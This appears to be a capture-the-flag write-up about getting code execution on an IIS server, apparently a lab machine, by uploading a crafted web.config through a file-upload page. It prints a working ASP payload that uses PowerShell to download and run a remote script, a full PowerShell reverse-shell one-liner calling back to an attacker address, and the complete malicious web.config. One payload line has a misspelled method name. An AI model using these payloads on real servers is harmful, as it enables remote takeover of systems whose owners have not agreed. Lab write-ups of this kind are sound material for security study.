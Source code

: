 ```
000000004:   200        31 L     53 W     630 Ch      "#"                                                                                                                                      
000000006:   200        31 L     53 W     630 Ch      "# Attribution-Share Alike 3.0 License. To view a copy of this"                                                                          
000000005:   200        31 L     53 W     630 Ch      "# This work is licensed under the Creative Commons"                                                                                     
000003783:   200        21 L     58 W     941 Ch      "transfer"

```

I find transfer.aspx which allows me to browse and upload a file. But it does not allow .aspx files. I tried a jpg file, which worked fine. 

Hmm. I google “IIS 7 upload vulnerability” And find this: https://soroush.secproject.com/blog/tag/unrestricted-file-upload/ at the top. This leads to https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/ which contains example code we can modify to get what we need.

Upon uploading and browsing to the example code it works perfectly. So now all I have to do is replace the current code with some commands.

```
<%
set s = CreateObject("WScript.shell")
set cmd = s.Exec("cmd /c powershell -c IEX(New-Object Net.Webclient).donwloadstring('http://10.10.14.69:8000/shell.ps1')" )
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

This will be the aspx code. It will download and execute the following powershell code:

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.69",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

And our full web.config looks like this:

``` 
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
set s = CreateObject("WScript.shell")
set cmd = s.Exec("cmd /c powershell -c IEX(New-Object Net.Webclient).downloadstring('http://10.10.14.69:8000/shell.ps1')" )
o = cmd.StdOut.Readall()
```